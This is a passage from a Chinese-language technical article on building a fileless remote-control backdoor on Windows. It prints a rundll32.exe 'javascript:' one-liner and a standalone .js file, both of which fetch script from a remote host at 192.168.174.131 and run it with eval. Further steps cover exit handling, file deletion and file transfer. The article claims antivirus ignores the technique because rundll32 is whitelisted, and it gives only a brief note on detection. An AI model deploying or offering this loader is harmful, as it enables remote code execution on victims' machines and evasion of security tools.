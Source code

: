 所以Clinet执行的命令最终优化为：

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.174.131/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e{new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}

```

**8、解决server端无法正常退出**

加入exit命令判断，如果输入exit，那么Client调用taskkill结束自身，Server同样执行exit退出

**（相关细节可参照结尾提供的参考代码）**

**9、解决删除文件的问题**

通过调用`new ActiveXObject("Scripting.FileSystemObject")`实现

示例代码：

```
fso1=new ActiveXObject("Scripting.FileSystemObject");
f =fso1.GetFile(d);
f.Delete();

```

**（相关细节可参照结尾提供的参考代码）**

**10、解决文件上传下载**

示例如图：

![Alt text](http://drops.javaweb.org/uploads/images/68ff634bd2167e25433a5d587bea84205784d2c3.jpg)

示例代码可以实现简单的文件上传下载，但里面存在一个小bug，如果你投入精力，不难解决

0x06 补充
=====

### 1、白名单进程，免疫杀毒软件

由于是通过rundll.exe调用的代码，所以杀毒软件会放行，不会拦截

### 2、检测

通信协议使用HTTP，通过防火墙拦截流量即可发现其中的攻击行为

### 3、更多加载方式

**（1）js文件**

可以放在js文件里面 双击js文件执行

```
h=new ActiveXObject("WinHttp.WinHttpRequest.5.1");
h.Open("GET","http://192.168.174.131/connect",false);
try{
h.Send();
B=h.ResponseText;
eval(B);
}
catch(e)
{
new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im wscript.exe",0,true);
}

```
